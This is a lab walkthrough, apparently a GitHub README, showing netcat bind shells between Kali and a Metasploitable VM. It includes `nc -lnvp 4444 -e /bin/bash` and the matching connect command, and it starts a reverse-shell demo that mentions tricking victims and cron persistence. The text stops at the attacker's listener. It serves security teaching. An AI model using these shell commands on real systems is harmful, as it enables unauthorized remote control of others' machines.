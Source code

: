 1. Begin by starting a listener on the victim's Metasploitable machine. This step assumes that we have already exploited the target and have access to it.

   - On Metasploitable, run the following command to create a listener on port `4444`.   

      -  `nc -lnvp 4444 -e /bin/bash`

         - `-l`: Tells Ncat to listen for incoming connection.
         - `-n`: Indicates that we are listening for numeric IP addresses.
         - `-v`: Means verbose, which will print more information about the connection.
         - `-p <port number>`: Specifies which port to listen on. 
         - `-e`: Executes a bash shell, specifically, `/bin/bash`.

   - Once the Kali machine connects, you will see a `connect to...(UNKNOWN)...` message.

        ![Bind 1](Images/BIND_2.png)

2. Next, we'll establish a connection to the listener on the Metasploitable VM.

   - On the Kali machine, run the command to establish a connection to port `4444` using the local IP address of Kali Linux. 

     - `nc 192.168.0.10 4444`


   - This command should successfully connect us on the Kali Machine, giving us remote control of the Metasploitable machine. 

    - Next, demonstrate code execution by typing `ls`, `whoami`, and `pwd` to illustrate that the shell is active on the target Metasploitable machine.

      ![Bind 1](Images/BIND_1.png)

We have successfully established a connection between the attacker and target machines!


#### Reverse Shell Demonstration

A reverse shell is initiated from the target host back to the attacker, who will have a listener. 

We would use a reverse shell  if we sent the victim a malicious script that tricked them into opening the payload for us, or after or during our initial breach into their system. We could also set up a reverse shell to run as a cron job. 

1. Start a listener on the attacker's Kali machine.

   - On Kali Linux, run the following command:

      - `nc -lvnp 4444`
